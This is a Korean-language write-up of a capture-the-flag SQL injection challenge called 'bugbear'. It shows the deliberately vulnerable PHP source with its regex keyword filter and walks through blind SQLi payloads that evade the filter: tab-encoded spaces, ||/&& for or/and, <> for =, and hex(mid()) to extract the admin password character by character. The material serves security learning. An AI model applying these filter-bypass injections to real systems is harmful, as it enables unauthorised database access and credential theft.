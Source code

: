 # BUGBEAR

## Problem
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```

## Inspection
* `if(preg_match('/\'/i', $_GET[pw])) exit("HeHe");`
	- 파라미터의 `pw`에서 `'`(작은따옴표)를 거른다.
* `if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe");`
	- 파라미터의 `pw`에서 `'`(작은따옴표), `substr`, `ascii`, `=`, `or`, `and`, `` ``(space), `like`, `0x`를 거른다.
* `select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}`
	- 첫번째 쿼리문이다.
	- 파라미터로 `pw`, `no`를 넘긴다.
	- `no` 쪽엔 따옴표가 없다.
* `if($result['id']) echo "<h2>Hello {$result[id]}</h2>";`
	- 첫번째 쿼리문이 참이면 `Hello {id}`가 뜬다.
	- 쿼리문의 참/거짓 여부를 판단할 수 있다.
	- **Blind SQLi**를 시도할 수 있다.
* `select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'`
	- 두번째 쿼리문이다.
	- 파라미터로 `pw`를 넘긴다.
* `if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear");`
	- `admin`의 `pw`를 넘겨야 통과한다.

## Solution
* [`bugbear_blind_sqli_parametric_search.py`](./bugbear_blind_sqli_parametric_search.py)
	- `admin`의 `pw`의 길이를 알아낸다.
		+ `1 or id = "admin" and length(pw) < {X}`
			+ `` ``(space)는 Tab(`\t`), Line Feed(`\n`), Carriage Return(`\r`), `/**/`, `()`, `+`로 우회할 수 있다.
			+ `or`, `and`는 `||`, `&&`로 우회할 수 있다. `&`의 URL encoded 값은 `%26`이다.
			+ `=`, `like`을 쓸 수 없는 상황에서  `id = "admin"`을 나타내려면 `id <> "guest"` 같이 일종의 이중 부정을 해야 한다. 
		+ `1	||	id	<>	"guest"	&&	length(pw)	<	{X}`
		+ `1%09||%09id%09<>%09"guest"%09%26%26%09length(pw)%09<%09{X}`
			+ url창에 `&&`을 직접 치면 인식이 안된다. `%26`으로 직접 넣어줘야 한다. 물론 스크립트에서는 상관없다.
	- `admin`의 `pw`를 한 글자씩 알아낸다.
		+ `1	||	id	<>	"guest"	&&	hex(mid(pw,{i},1))	<	hex({X})`
			+ `or` 때문에 `ord()`도 걸러지므로 `hex()`를 사용했다.
	- 알아낸 `admin`의 `pw`를 파라미터로 넘겨주면 통과한다.